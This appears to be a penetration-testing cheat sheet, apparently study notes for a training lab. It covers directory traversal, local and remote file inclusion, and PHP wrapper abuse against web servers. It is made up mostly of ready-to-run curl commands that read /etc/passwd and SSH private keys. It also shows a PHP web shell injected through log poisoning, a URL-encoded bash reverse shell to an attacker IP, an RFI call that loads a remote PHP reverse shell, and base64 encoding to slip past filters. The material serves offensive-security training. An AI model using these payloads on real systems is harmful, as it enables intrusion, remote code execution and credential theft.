 ### Directory Traversal:

Never forget to check for the basics once you've identified potential traversal/inclusion!
`curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd`
`curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa`

For IIS targets spice can be found at: `C:\inetpub\logs\LogFiles\W3SVC1\` and `C:\inetpub\wwwroot\web.config`
Windows targets can potentially only be vulnerable when a `\` is provided. Be sure to try both. WAF, application logic or web server may filter on the `../` syntax. Be sure to try `%2E%2E/`.

### Example LFI Exploit:

1. Identify directory traversal in vulnerable web server
2. Identify a log file that the user can potentially write to, in the case of an Apache server: `/var/log/apache2/access.log`
3. Dump its contents, see what exactly the user can control. In this case, the contents of the `User Agent` header are written to the log
4. Repeat the request with Burp, but now with the `User Agent` header poisoned with some PHP:
`<?php echo system($_GET['cmd']); ?>`
5. With this written to the log, curl the log once again, if vulnerable to LFI the log will be rendered in the browser, and the PHP will execute
`curl http://vulnerable.ohno/../../../../../../../../../var/log/apache2/access.log?cmd=ls`
6. Once you've confirmed you have code execution pass a URL encoded reverse shell to the cmd parameter. Don't forget to start your listener!
`curl http://vulnerable.ohno/../../../../../../../../../var/log/apache2/access.log?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<Attacker IP>%2F4444%200%3E%261%22`

### Example RFI Exploit:

Exploiting the same principle as LFI, except this server will actually render content that is not necessarily on the same server. Whack.
1. Identify a parameter that takes an argument for the page that the application should render, or similar. Eg.
http://mountaindesserts.com/meteor/index.php?page=cats.html
2. Start an http server from a directory containing a payload:
`cd /usr/share/webshells/php; python3 -m http.server 80`
3. Start a listener:
`nc -nvlp 4444`
4. Run your favourite command:
`curl "http://mountaindesserts.com/meteor/index.php?page=http://<your IP>/php-reverse-shell.php"`

### Filter PHP Wrapper:

If a server is vulnerable to this then we can potentially view the contents of the PHP as it appears server side. This will enable us to inspect the code before it has been executed, allowing us to analyse application logic and potentially grab some creds.
`curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php`
`echo ourBase64EncodedData | base64 -d`

### Data PHP Wrapper:

filter can recover source code, data can achieve code execution:
`curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"`
If the server/firewall employs mechanisms for filtering for commands like ‘system()’ we can base64 encode again to smuggle our payload:
`echo -n '<?php echo system($_GET["cmd"]);?>' | base64`
`curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,<ourBase64EncodedPayload>?cmd=ls`
Nb. while worth trying, this exploit is unlikely to be viable, the allow_url_include setting needs to be enabled, and it is not by default.